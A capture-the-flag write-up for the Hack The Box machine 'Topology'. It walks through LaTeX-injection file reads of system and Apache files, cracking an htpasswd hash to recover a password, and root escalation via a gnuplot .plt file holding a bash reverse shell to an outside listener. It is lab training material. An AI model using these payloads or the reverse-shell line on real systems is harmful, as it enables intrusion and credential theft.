# Topology - LINUX - EASY


## Enumeration
We run a nmap scan, hit all the ports and do script and version check:

```console
toasty@parrot$ sudo nmap -sC -sV -p- 10.10.11.217

Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-23 14:27 BST
Nmap scan report for 10.10.11.217
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: topology.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.76 seconds

```

Web page is hosted and host name is `topology.htb`, let's add that to our `/etc/hosts` file and give it a visit.

## Webpage





It is a webpage for a topology group led by Prof. Lilian Klein at "Mikatonic University". 

We see three staff listed along with an email for `lklein@topology.htb`. We can guess from this the username schema may be first letter of first name and last name, so I will write down `dabrahams` and `vdaisley` to look at if we find any passwords.

There is only one working link on the site and it leads to `http://latex.topology.htb/equation.php`. 

## Subdomains
Before we visit `latex.topology.htb` that reminds me we should fuzz for other subdomains and we can do that using gobuser:

```console
toasty@parrot$ gobuster vhost -u topology.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://topology.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/08/23 18:40:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.topology.htb (Status: 401) [Size: 463]
Found: stats.topology.htb (Status: 200) [Size: 108]
```

We found two more, `stats` and `dev`

## Dev.topology.htb


The dev page asks for a sign in, so we will come back to that later.

## Stats.topology.htb


The stats page gives us an image representing server load, not too much interesting here.

## Latex.Topology.Htb
After adding `latex.topology.htb` to our hosts file we can visit the link above:



It is a png generator for mathematical equations. Running a test with the payload redirects us to:

 `http://latex.topology.htb/equation.php?eqn=test$&submit`


This could be intersting but let's keep poking around. We are currently at `/equation.php`, can we access the root directory? We can:



## Base Directory
There is a couple files in here, let's look at a few. The `equationtest.log` shows us the version of `pdfTex` we are running. We also see that `\write18` is enabled which we can come back to later:
```console
toasty@parrot$ cat equationtest.log 
This is pdfTeX, Version 3.14159265-2.6-1.40.20 (TeX Live 2019/Debian) (preloaded format=pdflatex 2022.2.15)  12 MAR 2022 08:48
entering extended mode
 restricted \write18 enabled.
... SNIP
```

The `header.tex` file shows us that we were right about our assumption of usernames and it appears to be a header for LaTex.

```console
toasty@parrot$ cat header.tex 
% vdaisley's default latex header for beautiful documents
\usepackage[utf8]{inputenc} % set input encoding
...SNIP
```

The `equationtest.tex` file appears to shows the command ran to create the `equationtest.png`.
```console
toasty@parrot$ cat equationtest.tex 
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}

```

## Back to Latex
So back to `equation.php`  we can input text into the field and it will generate a png for us. We saw that with a `test` payload. On [HackTricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection) they have a section for LaTex Injection. Trying to use the payload `\input{/etc/passwd}` gets us the following ouptut:



Going down the list we keep getting illegal command errors, but when we try the command `\lstinputlisting{/etc/passwd}` we get a different error:



In the `euqationtest.tex` file we saw the command wrapped in $. So let's try the following command:

`$\lstinputlisting{/etc/passwd}$`


This works because of LaTex using a "textual" and "display" math mode. Here is [pdf](https://web.mit.edu/rsi/www/pdfs/math.pdf) about it.

And there we go, we can read files on the machine:



We take note that the user `vdaisley` is a user on the sytem.

## Virtual Hosts File
We know from our initial nmap scan and navigating the site that we are on an `apache` server. We also know there are a few virtualhosts. Our ffuf scan revealed,`dev` and `stats` and `latex` was revealed on the homepage.


Apache comes wiht a default virtual host file and it is located at `/etc/apache2/sites-available/000-default.conf`. Let's try to read that file using the following LaTex command:

`$\lstinputlisting{/etc/apache2/sites-available/000-default.conf}$`


And the file is there:




It is a large file so I will list out the relevant parts:
```conf
<Virtualhost *:80>
ServerName topology.htb
ServerAdmin vdaisley@topology.htb
DocumentRoot /var/www/html
</Virtualhost>
<Virtualhost *:80>
ServerName latex.topology.htb
ServerAdmin vdaisley@topology.htb
DocumentRoot /var/www/latex
</Virtualhost>
<Virtualhost *:80>
ServerName dev.topology.htb
ServerAdmin vdaisley@topology.htb
DocumentRoot /var/www/dev
</Virtualhost>
<Virtualhost *:80>
ServerName stats.topology.htb
ServerAdmin vdaisley@topology.htb
DocumentRoot /var/www/stats
</Virtualhost>
```

We can see that it is apparent `vdaisley` is the user to target.

## Apache Files
Now we have all the document roots for our virtual hosts, we can target config filese for apache. I specifically target `.htaccess` and `config.php` files against all 4 document roots. The searches looked like this:


### .htaccess
    ```
    $\lstinputlisting{/var/www/html/.htaccess}$
    $\lstinputlisting{/var/www/stats/.htaccess}$
    $\lstinputlisting{/var/www/dev/.htaccess}$
    $\lstinputlisting{/var/www/latex/.htaccess}$
    ```
### config.php
    ```
    $\lstinputlisting{/var/www/html/config.php}$
    $\lstinputlisting{/var/www/stats/config.php}$
    $\lstinputlisting{/var/www/dev/config.php}$
    $\lstinputlisting{/var/www/latex/config.php}$
    ```

The only one that popped a result was `.htaccess` for the `dev` subdomain:



Which then led us to the `.htpasswd` file:


`vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

## Break the Hash
From the Apache docs we can see that the password is created using a version of `bcrypt` for [Apache](https://httpd.apache.org/docs/2.4/programs/htpasswd.html).
 We can then save that in hashcat and run `-m 1600`. I ran this from my Windows cracking machine:


```powershell
.\hashcat.exe C:\temp\vdaisley.txt C:\temp\wordlists\rockyou.txt
...SNIP
Host memory required for this attack: 983 MB

Dictionary cache hit:
* Filename..: C:\temp\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```

We now have vdaisley's password: `calculus20`

## SSH
We have a valid username and password let's try to ssh in:

```console
toasty@parrot$ sshpass -p calculus20 ssh vdaisley@topology.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)
...SNIP
Last login: Thu Aug 24 13:35:11 2023 from 10.10.16.53
-bash-5.0$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
```

## User Flag
Now to grab the user flag
```console
-bash-5.0$ ls
user.txt
-bash-5.0$ cat user.txt 
77caab**************************
```

# Machine Flag

## Sudo Perms
I like to check sudo perms off the bat, unfortunately it appears vdaisley has none:
```console
-bash-5.0$ sudo -l
[sudo] password for vdaisley: 
Sorry, user vdaisley may not run sudo on topology.
```

## Pspy
Let's host a python server and get the [pspy](https://github.com/DominicBreuker/pspy) script over to our target machine and then make it executable. Pspy will monitor processes that are running on the machine:


```console
-bash-5.0$ wget 10.10.14.231:8000/pspy64
--2023-08-24 14:13:20--  http://10.10.14.231:8000/pspy64
Connecting to 10.10.14.231:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                          100%[=====================================================================================================>]   2.96M  4.05MB/s    in 0.7s    

2023-08-24 14:13:21 (4.05 MB/s) - ‘pspy64’ saved [3104768/3104768]

-bash-5.0$ chmod +x pspy64 
```

### Output
We observe the line below:
`2023/08/24 14:17:01 CMD: UID=0     PID=42054  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \`

The user root is opening a shell and finding all `.plt` files in the directory `/opt/gnuplot` and then running them via gnuplot.
Gnuplot is a command line program that can plot data, but we can exploit it if we can upload a [custom .plt](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/).

## /opt/gnuplot
We check our perms against the directory that is being checked:

```console
-bash-5.0$ ls -al /opt/gnuplot/
ls: cannot open directory '/opt/gnuplot/': Permission denied
-bash-5.0$ ls -al /opt/
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
drwx-wx-wx  2 root root 4096 Aug 24 13:50 gnuplot
```

We don't have any read privileges so that is why the first command failed but we can write and execute in gnuplot. Let's create a `test.plt` file and move it over to the `gnuplot` directory.


## Getting Root Access
We can go through the steps below to get our root access:

#### Test.plt
First we create a simple reverse shell in a `.plt` file:

`system "bash -c 'bash -i >& /dev/tcp/10.10.14.231/9009 0>&1'"`

#### Target
Then move the file over to `/opt/gnuplot`:

```console
-bash-5.0$ cp test.plt /opt/gnuplot/
```
#### Host
We start our listener on our host and wait for the connection to come in:

```console
toasty@parrot$ nc -lvnp 9009
listening on [any] 9009 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.217] 57454
bash: cannot set terminal process group (42289): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Machine Flag
```console
root@topology:~# cat /root/root.txt
cat /root/root.txt
ecda3***************************
```
